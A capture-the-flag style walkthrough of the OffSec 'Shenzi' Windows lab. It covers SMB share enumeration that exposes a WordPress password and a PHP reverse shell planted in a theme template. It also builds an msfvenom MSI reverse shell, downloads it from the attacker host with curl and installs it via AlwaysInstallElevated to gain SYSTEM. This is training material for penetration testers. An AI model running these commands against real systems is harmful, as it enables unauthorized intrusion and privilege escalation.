





# Shenzi

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 20
Number of Flags: 2
Lab Description:
You will discover exposed credentials on an open SMB file share, enabling you to upload a PHP reverse shell to 
this lab for initial access. Following this, you will exploit an insecure registry configuration to install 
.msi packages with elevated privileges. This exercise enhances your skills in credential exploitation and 
privilege escalation through misconfigurations.
```

Machine link: [https://portal.offsec.com/machine/shenzi-284/overview/details](https://portal.offsec.com/machine/shenzi-284/overview/details)  
Writeup Author: Cajac

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap`, including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ export TARGET_IP=192.168.179.55 

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-16 13:37 +0100
Nmap scan report for 192.168.179.55
Host is up (0.035s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.179.55/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_ssl-date: TLS randomness does not represent time
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.179.55/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-16T12:41:02
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.49 seconds
```

We have the following main TCP-services running:

- [FileZilla ftpd](https://en.wikipedia.org/wiki/FileZilla#FileZilla_Server) version 0.9.41 on port 21
- [Apache httpd](https://en.wikipedia.org/wiki/Apache_HTTP_Server) version 2.4.43 on port 80 and 443
- [Microsoft Windows RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) on port 135
- [NetBIOS Session Service](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Session_service) on port 139
- [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) running on port 445
- [MariaDB](https://en.wikipedia.org/wiki/MariaDB) version 10.3.24 or later on port 3306

### SMB Discovery

Next, we check for shares with NetExec.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ nxc smb $TARGET_IP -u '' -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.179.55  445    SHENZI           [*] Windows 10 / Server 2019 Build 19041 x64 (name:SHENZI) (domain:shenzi) (signing:False) (SMBv1:None)
SMB         192.168.179.55  445    SHENZI           [-] shenzi\: STATUS_ACCESS_DENIED 
SMB         192.168.179.55  445    SHENZI           [-] Error enumerating shares: Error occurs while reading from remote(104)

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ nxc smb $TARGET_IP -u Guest -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.179.55  445    SHENZI           [*] Windows 10 / Server 2019 Build 19041 x64 (name:SHENZI) (domain:shenzi) (signing:False) (SMBv1:None)
SMB         192.168.179.55  445    SHENZI           [+] shenzi\Guest: 
SMB         192.168.179.55  445    SHENZI           [*] Enumerated shares
SMB         192.168.179.55  445    SHENZI           Share           Permissions     Remark
SMB         192.168.179.55  445    SHENZI           -----           -----------     ------
SMB         192.168.179.55  445    SHENZI           IPC$            READ            Remote IPC
SMB         192.168.179.55  445    SHENZI           Shenzi          READ  
```

We have read access to a `Shenzi` share. Let's check its contents.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ smbmap -H $TARGET_IP -u Guest --no-pass --depth 5 -r Shenzi        

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 192.168.179.55:445      Name: 192.168.179.55            Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IPC$                                                    READ ONLY       Remote IPC
        Shenzi                                                  READ ONLY
        ./Shenzi
        dr--r--r--                0 Fri May 29 15:26:51 2020    .
        dr--r--r--                0 Fri May 29 15:26:51 2020    ..
        fr--r--r--              894 Fri May 29 15:26:51 2020    passwords.txt
        fr--r--r--             7367 Fri May 29 15:26:51 2020    readme_en.txt
        fr--r--r--             3879 Fri May 29 15:26:51 2020    sess_klk75u2q4rpgfjs3785h6hpipp
        fr--r--r--              213 Fri May 29 15:26:51 2020    why.tmp
        fr--r--r--              178 Fri May 29 15:26:51 2020    xampp-control.ini
[*] Closed 1 connections  
```

Why not download all the files for later analysis?

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ smbclient "//$TARGET_IP/Shenzi" -N -c 'prompt OFF; recurse ON; mget *'
getting file \passwords.txt of size 894 as passwords.txt (6.6 KiloBytes/sec) (average 6.6 KiloBytes/sec)
getting file \readme_en.txt of size 7367 as readme_en.txt (48.9 KiloBytes/sec) (average 28.9 KiloBytes/sec)
getting file \sess_klk75u2q4rpgfjs3785h6hpipp of size 3879 as sess_klk75u2q4rpgfjs3785h6hpipp (23.8 KiloBytes/sec) (average 27.1 KiloBytes/sec)
getting file \why.tmp of size 213 as why.tmp (1.5 KiloBytes/sec) (average 21.0 KiloBytes/sec)
getting file \xampp-control.ini of size 178 as xampp-control.ini (1.3 KiloBytes/sec) (average 17.3 KiloBytes/sec)

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ cat passwords.txt       
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

Let's hold back analysis of the other files for now.

### Analyse the web site

Manually browsing to `http://192.168.179.55/` we get redirected to `http://192.168.179.55/dashboard/` and see a [XAMPP](https://en.wikipedia.org/wiki/Xampp) information page:



The version running is `7.4.6`.

At `http://192.168.179.55/dashboard/phpinfo.php` there is a PHPInfo() page:



From this page we can see that the DOCUMENT_ROOT is `C:/xampp/htdocs`.

### Login to WordPress

According to the `passwords.txt` file there ought to be a [WordPress](https://en.wikipedia.org/wiki/WordPress) installation somewhere.

My automated scanning with `ffuf` failed, but after some additional manual testing the WordPress site is found at `http://192.168.179.55/shenzi/`:



Now that we have located Wordpress, we can login with `admin:FeltHeadwallWight357` at `http://192.168.179.55/shenzi/wp-login.php`.

After continuing on the `Administration email verification` page, we get this dashboard:



### Configure a reverse shell

Next, we will configure a web shell in WordPress by navigaing to `Theme Editor` under the `Appearence` menu to the left and then `404 Template` in the menu to the right.



We replace the PHP-code with Ivan Šincek's [PHP reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) that works well on Windows.

Don't forget to update the IP and port information at the end of the code!

```php
// change the host address and/or port number as necessary
$sh = new Shell('192.168.45.192', 12345);
```

Finally, press the `Update File`-button.

### Get a reverse shell

Before triggering the reverse shell, we start a [Penelope](https://github.com/brightio/penelope) listener on port 12345:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Shenzi]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.192:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

```

And then trigger the reverse shell to accessing any non-existing WordPress page with `curl`:

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Intermediate]
└─$ curl http://$TARGET_IP/shenzi/this_page_does_not_exist.txt 

```

Back at our listener, we should get a connection:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Shenzi]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.192:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => SHENZI 192.168.179.55 Microsoft_Windows_10_Pro-x64-based_PC 👤 shenzi\shenzi 😍 Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/SHENZI~192.168.179.55-Microsoft_Windows_10_Pro-x64-based_PC/2026_11_16-14_51_14-881-shenzi\shenzi.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

C:\xampp\htdocs\shenzi>whoami
shenzi\shenzi

C:\xampp\htdocs\shenzi>
```

### Get the user flag

We can now search for the user flag with `where.exe`.

```bat
C:\xampp\htdocs\shenzi>where.exe /R C:\ local.txt
C:\Users\shenzi\Desktop\local.txt

C:\xampp\htdocs\shenzi>type C:\Users\shenzi\Desktop\local.txt
e<REDACTED>a

C:\xampp\htdocs\shenzi>
```

Nice!

### Enumeration for PrivEsc

Next, we enumerate the system for privilege escalation opportunities.

My [Windows Privilege Escalation Checklist](https://cajac.gitbook.io/ctf-notes/priv-esc/windows-privilege-escalation/windows-privesc-checklist) is used for guidance.

Checking the registry, we find that the [AlwaysInstallElevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) registry values are set to `1` which allow us to install MSI-packages with SYSTEM-privileges.

```bat
C:\xampp\htdocs\shenzi>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\xampp\htdocs\shenzi>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\xampp\htdocs\shenzi>
```

### Prepare a MSI reverse shell

A MSI reverse shell is created with `msfvenom`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Shenzi]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=12345 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

This file is then shared over HTTP (with `python -m http.server 80`) and is downloaded with `curl` to the target machine.

```bat
C:\xampp\htdocs\shenzi>cd C:\Users\Shenzi\Downloads

C:\Users\shenzi\Downloads>curl.exe http://192.168.45.192/reverse.msi -o reverse.msi
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  156k  100  156k    0     0   880k      0 --:--:-- --:--:-- --:--:--  886k

C:\Users\shenzi\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is E24B-9BB9

 Directory of C:\Users\shenzi\Downloads

11/16/2026  06:14 AM    <DIR>          .
11/16/2026  06:14 AM    <DIR>          ..
11/16/2026  06:14 AM           159,744 reverse.msi
               1 File(s)        159,744 bytes
               2 Dir(s)  26,599,256,064 bytes free

C:\Users\shenzi\Downloads>
```

### Trigger the reverse shell

Then the new reverse shell is triggerd:

```bat
C:\Users\shenzi\Downloads>msiexec /quiet /qn /i reverse.msi

[+] [New Reverse Shell] => SHENZI 192.168.179.55 Microsoft_Windows_10_Pro-x64-based_PC 👤 nt authority\system 😍 Session ID <2>
C:\Users\shenzi\Downloads>
```

We instantly get a new session!

### Get a root shell

We can switch to the new session by detaching from the current session (with `Ctrl + D`) and select the new one.

```bash
C:\Users\shenzi\Downloads>

[!] Session detached ⇲

(Penelope)─(Session [1])> sessions

➤  SHENZI 192.168.179.55 Microsoft_Windows_10_Pro-x64-based_PC

    ID  | Shell    | User                | Source                           
    [1] | Readline | shenzi\shenzi       | TCPListener(192.168.45.192:12345)
    <2> | Raw      | nt authority\system | TCPListener(192.168.45.192:12345)

(Penelope)─(Session [1])> sessions 2
[+] Added readline support...
[+] Interacting with session [2] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/SHENZI~192.168.179.55-Microsoft_Windows_10_Pro-x64-based_PC/2026_11_16-15_14_42-945-nt authority\system.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

### Get the root flag

Finally, we can `type` the root flag.

```bat
C:\WINDOWS\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E24B-9BB9

 Directory of C:\Users\Administrator\Desktop

04/12/2022  10:03 AM    <DIR>          .
04/12/2022  10:03 AM    <DIR>          ..
11/16/2026  04:36 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)  26,598,916,096 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
8<REDACTED>6

C:\Users\Administrator\Desktop>
```

For additional information, please see the references below.

## References

- [AlwaysInstallElevated - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)
- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [FileZilla - Wikipedia](https://en.wikipedia.org/wiki/FileZilla)
- [MariaDB - Wikipedia](https://en.wikipedia.org/wiki/MariaDB)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Msfvenom - Metasploit Docs](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- [Msfvenom - Kali Tools](https://www.kali.org/tools/metasploit-framework/#msfvenom)
- [msiexec - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec)
- [Penelope - GitHub](https://github.com/brightio/penelope)
- [Penelope - Kali Tools](https://www.kali.org/tools/penelope/)
- [Perl - Wikipedia](https://en.wikipedia.org/wiki/Perl)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [php-reverse-shell.php - ivan-cincek - GitHub](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
- [reg query - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [Windows Installer - Wikipedia](https://en.wikipedia.org/wiki/Windows_Installer)
- [Windows Privilege Escalation (AlwaysInstallElevated) - Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)
- [Windows Privilege Escalation Checklist - Cajac's CTF Notes](https://cajac.gitbook.io/ctf-notes/priv-esc/windows-privilege-escalation/windows-privesc-checklist)
- [WordPress - Wikipedia](https://en.wikipedia.org/wiki/WordPress)
- [XAMPP - Wikipedia](https://en.wikipedia.org/wiki/Xampp)
